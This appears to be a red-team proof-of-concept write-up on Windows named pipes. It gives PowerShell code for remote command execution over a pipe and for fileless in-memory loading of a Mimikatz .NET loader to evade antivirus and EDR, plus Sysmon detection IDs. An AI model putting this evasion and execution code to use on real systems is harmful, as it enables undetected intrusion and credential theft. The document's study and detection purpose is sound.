

Definition
Names pipes are a Windows feature used for interprocess communication (IPC). It can be used to load the backdoor into memory or inject into a process. Named pipes are used for local processes to communicate with each other. It’s similar to a TCP session between a client and server. It can be used to provide communication channel between processes on the same computer or between processes on different computers across a network. ( => Might be interesting for lateral movement)
Source : https://docs.microsoft.com/en-us/windows/win32/ipc/named-pipes
Cobalt Strike, for example, uses this windows functionnality to transfer data without writing any file on disk. We will try to simulate that method to remotely execute code without writing anything on disk.
Scenario & Topology
The scenario that will be presented will focus on 3 machines.
- Attacker system : 192.168.101.12
- Compromised system : 192.168.101.13 - Windows 10
- Client system : 192.168.101.4 - Windows Server 2019
Development & Scripting
Named pipes can be created with the class NamedPipeServerStream(Name) from the namespace System.IO.Pipes
A client can connect to a named pipe by creating an object of the class NamedPipeClientStream(Server, Name) and calling the method Connect(Time) of that object.
To send and to receive data on the pipe, we will use a StreamWriter object to write data and StreamReader object to read the data sent through the pipe.
Server code
$pipe = New-Object System.IO.Pipes.NamedPipeServerStream($pipeName); # Creation new pipe object
Write-Host "Listening on \\.pipe\$pipeName";
$pipe.WaitForConnection();
$sr = New-Object System.IO.StreamReader($pipe) # StreamReader read text from a file, from $pipe here
$msg = $sr.ReadLine();
Write-Host "Message received :", $msg;
Client code
$pipeName = "YahudPipe"
$pipe = New-Object System.IO.Pipes.NamedPipeClientStream($pipeServer, $pipeName)
$pipe.Connect();
$sw = New-Object System.IO.StreamWriter($pipe);
$msg = Read-Host "Enter your message to send :";
$sw.WriteLine($msg)
Authentication
Connecting to the named pipe in local does not require any authentication, but when it comes to a connection through network, a authentication will be necessary.
The constructor of the class NamedPipeClientStream can take 2 parameters (Server IP, Pipe Name).
Network pipe : \\[ServerIP]\\PipeName
Therefore, on the client script, the attacker can specify those credentials to connect to the pipe.
Invoke-Expression -Command $auth
Command execution
On the previous section, we've seen that it is possible to send message from the server to client and execute net use command to authenticate to another system through network. So with the named pipe functionnalities, the server can send commands to the client and execute it.

The method WriteLine() and ReadLine() of the class StreamWriter and StreamReader will send and receive the message through the pipe.
Server code :
$sw.WriteLine($command)
Client code :
Invoke-Expression -Command $command
Client code :
$result = Invoke-Expression -Command $command
$sw.WriteLine($result.Length) # Sending lenght of the command result to Server
for($cpt = 0; $cpt -lt $result.Length; $cpt++){
$sw.WriteLine($result[$cpt])
}
for($cpt = 0; $cpt -lt $lenght; $cpt++){
$result = $sr.ReadLine()
Write-Host $result
}
Remote Code Execution
This is probably the most interesting part. Executing code in another computer from our own system. Cobalt Strike uses Windows pipes to communicate between systems in the network. For example, the "keylogger" module is able to send the pressed keys back to the main beacon process. The keylogger module is fully fileless, which makes the detection harder for antiviruses and EDR. The pipes help that communication between the server and the clients without writing on the disk. We will simulate how to load and execute the process in memory to bypass the detection from the antivirus and EDR.
In PowerShell, it is possible to run a .NET application executable with the Assembly class from the System.Reflection namespace. .NET application can be application written in C#. To illustrate it, we will start with a simple C# program that will print "Hello World".
Content of the file "Program.cs"
namespace Malcode
{
class Program
{
static void Main()
{
Console.WriteLine("Hello World!");
}
}
}
Then use the Load() method from the Assembly class to load the assembly in memory, $assembly.EntryPoint will find the location of the main function and run the program with the method Invoke()
$assemblyByte = [System.IO.File]::ReadAllBytes($assemblyPath)
$assembly = [System.Reflection.Assembly]::Load($assemblyByte)
$entryPoint = $assembly.EntryPoint
$entryPoint.Invoke($null, $null)
=> Remote Code Execution Now that we demonstrate how to remotely execute a .NET application from PowerShell, let's make some tests to see if we can bypass some detections.
PELoaderofMimikatz.cs from S3cur3Th1sSh1t is a version of Mimikatz for .NET application.
If the assembly is found on disk, it will be immediately detected by the antivirus, the test has been done with Symantec EndPoint Protection. But what happened if we load it in memory ? Will the antivirus be able to detect it ?
Server code :
$assemblyByte = [System.IO.File]::ReadAllBytes($assemblyFile)
$assemblyB64 = [System.Convert]::ToBase64String($assemblyByte)
$sw.WriteLine($assemblyB64) # Server sending to the client
$assemblyByte = [System.Convert]::FromBase64String($assemblyB64)
$assembly = [System.Reflection.Assembly]::Load($assemblyByte)
$assembly.EntryPoint.Invoke($null, $null)
Detection
This section is mainly for FireEye EDR team to improve their detection
As mentionned previously, the detection has not been great for the antivirus and EDR. We have created a named pipe under the name "YahudPipe" and no event has been recorded in the triage of the system from FireEye HX.
 To detect creation of a named pipe and connection to a named pipe, Sysmon is a tool that is available to monitor it. By filtering the Sysmon log in the event viewer with the ID 17, 18, we might monitor those events.
To detect creation of a named pipe and connection to a named pipe, Sysmon is a tool that is available to monitor it. By filtering the Sysmon log in the event viewer with the ID 17, 18, we might monitor those events.
- Sysmon event id 17 : Pipe creation
- Sysmon event id 18 : Pipe connection
Conclusion
Named pipes is a windows functionality that exist for a very long time, it is mainly used to send data from a process to another process. Most of people know the pipe to send the output of a command to the input of another command, such as dir | findstr "cmd.exe", which will send the output of the command "dir" as the input of the command "findstr". On the attack side, it is currently used by Cobalt Strike to exfiltrate data but on the defense side, we are still lacking of detection regarding this windows feature. As shown in this POC, the antivirus and EDR does not detect anything regarding the creation or the connection event of a pipe. Moreover, it give the opportunity for attackers to remotely execute code in memory which is another way to evade antivirus and EDR detection.